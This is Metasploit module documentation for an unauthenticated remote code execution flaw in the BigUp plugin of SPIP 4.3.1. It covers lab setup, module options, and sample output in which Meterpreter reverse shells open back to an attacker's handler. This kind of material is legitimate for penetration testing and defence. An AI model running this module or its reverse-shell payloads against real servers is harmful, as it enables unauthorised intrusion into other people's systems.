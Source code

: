 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP
versions up to and including 4.3.1, specifically in the BigUp plugin.
The vulnerability occurs due to improper handling of file uploads in the
`lister_fichiers_par_champs` function, which can be exploited by crafting a malicious multipart form request.
This allows an attacker to inject and execute arbitrary PHP code on the server.

### Non-Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Download and set up SPIP version 4.3.1.
2. Use the built-in PHP server to host the SPIP instance.

#### Commands to Set Up the Vulnerable Environment:

```bash
wget https://files.spip.net/spip/archives/spip-v4.3.1.zip
mkdir spip && mv spip-v4.3.1.zip spip
cd spip && unzip spip-v4.3.1.zip
php -S 0.0.0.0:8000
```

- **SPIP Access URL:** `http://localhost:8000`
- **SPIP Version:** 4.3.1

After starting the PHP server, SPIP will be accessible at `http://localhost:8000`.

To complete the installation:

1. Navigate to `http://localhost:8000/ecrire` to access the SPIP web installation panel.
2. Follow the on-screen instructions to complete the setup.

### Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Pull the vulnerable SPIP Docker image:

```bash
docker run --name casse-spip -p 8000:80 \
    -e SPIP_DB_SERVER=sqlite3 \
    -e SPIP_SITE_ADDRESS=http://localhost \
    -d ipeos/spip:4.3.1
```

2. Go to `http://localhost:8000` to access the SPIP application.

## Verification Steps

1. Set up a SPIP instance using the commands provided above.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_bigup_unauth_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

### FORM_PAGE
This option allows you to specify a custom page on the target SPIP installation that contains a form.
By default, the module will automatically check the `login`, `spip_pass`, and `contact` pages for forms,
but if you know of another page that contains a form, you can specify it here.
For example, if an article page contains a form, you can set this option like so:

```
set FORM_PAGE /spip.php?article1
```

This will instruct the module to look for the form data on `/spip.php?article1`.
If the specified page contains the vulnerable form, the module will proceed with the exploitation.
This option is particularly useful when the default pages (`login`, `spip_pass` and `contact`)
do not contain the form or are not accessible.

## Scenarios

### Successful Exploitation Against Local SPIP 4.3.1

**Setup**:

- Local SPIP instance with version 4.3.1.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module via `use exploit/multi/http/spip_bigup_unauth_rce`
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (`TARGETURI`, `SSL`, etc.).
5. Launch the exploit:
```bash
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] SPIP version 4.3.1 is vulnerable.
[*] Bigup plugin version detected: 3.2.11
[+] The target appears to be vulnerable. Both the detected SPIP version (4.3.1) and bigup version (3.2.11) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: yt4d8ri/avF6LO/OwLA2O...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (39927 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.17.0.2:54956) at 2024-09-08 05:53:39 +0200

meterpreter > sysinfo 
Computer    : d6c6866cac5a
OS          : Linux d6c6866cac5a 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] SPIP version 4.3.1 is vulnerable.
[*] Bigup plugin version detected: 3.2.11
[+] The target appears to be vulnerable. Both the detected SPIP version (4.3.1) and bigup version (3.2.11) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: yt4d8ri/avF6LO/OwLA2O...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 172.17.0.2:55956) at 2024-09-08 05:54:43 +0200

meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Debian 11.10 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running using the manual setup for the exploit to work as expected.
